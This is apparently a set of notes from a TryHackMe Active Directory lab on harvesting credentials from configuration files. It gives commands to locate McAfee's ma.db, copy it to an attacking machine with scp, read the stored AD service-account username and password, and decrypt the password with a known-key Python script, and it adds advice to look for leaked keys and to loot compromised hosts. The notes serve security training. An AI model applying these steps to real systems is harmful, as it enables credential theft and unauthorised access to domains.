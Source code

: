 --- ---

<h2>General</h2>
Configuration files are used by applications to store various types of configuration information, such as settings, options, and parameters. These files may contain sensitive information, such as passwords, secrets, and credentials, which are used by the application to authenticate to other systems or services. If an attacker is able to access or modify the configuration files, they may be able to use this information to gain unauthorized access to the systems or services that the application is configured to connect to.

One way that configuration files can be exploited is by modifying the configuration options to include malicious parameters or values. For example, an attacker could modify a configuration file to include a malicious URL or command that is executed when the application is started. This could allow the attacker to execute arbitrary code or commands on the system, potentially leading to further compromise.

Another way that configuration files can be exploited is by extracting sensitive information from the files and using it to gain access to other systems or services. For example, an attacker could extract a password from a configuration file and use it to log in to a web application or server.

---

<h2>Commands</h2>

Configuration File Credentials  

We will focus on recovering credentials from a centrally deployed application in this task. Usually, these applications need a method to authenticate to the domain during both the installation and execution phases.

Example
	MMcAfee Enterprise Endpoint Security, which organisations can use as the endpoint detection and response tool for security.  
	ㅤ
	McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called ma.db. This database file can be retrieved and read with local access to the host to recover the associated AD service account. We will be using the SSH access on THMJMP1 again for this exercise.

Find a database in an application configuration (example ma.db)
```shell-session
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB      

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s)  39,426,285,568 bytes free
```

Copy the file to the your attacking machine (SCP)
```shell-session
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00
```

Read the database (SQLiteBrowser)
```shell-session
sqlitebrowser ma.db
```

Using sqlitebrowser, we will select the Browse Data option and focus on the AGENT_REPOSITORIES table:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/aeda85be24462cc6a3f0c03cd899053a.png)  

We are particularly interested in the second entry focusing on the DOMAIN, AUTH_USER, and AUTH_PASSWD field entries. Make a note of the values stored in these entries. However, the AUTH_PASSWD field is encrypted. Luckily, McAfee encrypts this field with a known key. Therefore, we will use the following old python2 script to decrypt the password.


===From here, it will be different depending on the database en the encryption the application is using. search on google if the encrypted key of this application has been leaked before and if some people on github has develop some script to exploit the encrypted password===


You will have to unzip the mcafee-sitelist-pwd-decryption.zip file:
```shell-session
unzip mcafeesitelistpwddecryption.zip
```
**Note: The tool we will use here is quite old. It uses Python v2 and relies on an old crypto library. If you cannot get the script to work on your own VM, please make use of the AttackBox.**  

By providing the script with our base64 encoded and encrypted password, the script will provide the decrypted password:
```shell-session
thm@thm:~/root/Rooms/BreachingAD/task7/mcafee-sitelist-pwd-decryption-master$ python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
Crypted password   : <AUTH PASSWD VALUE>
Decrypted password : <Decrypted Pasword>
```

We now once again have a set of AD credentials that we can use for further enumeration! This is just one example of recovering credentials from configuration files. If you are ever able to gain a foothold on a host, make sure to follow a detailed and refined methodology to ensure that you recover all loot from the host, including credentials and other sensitive information that can be stored in configuration files.
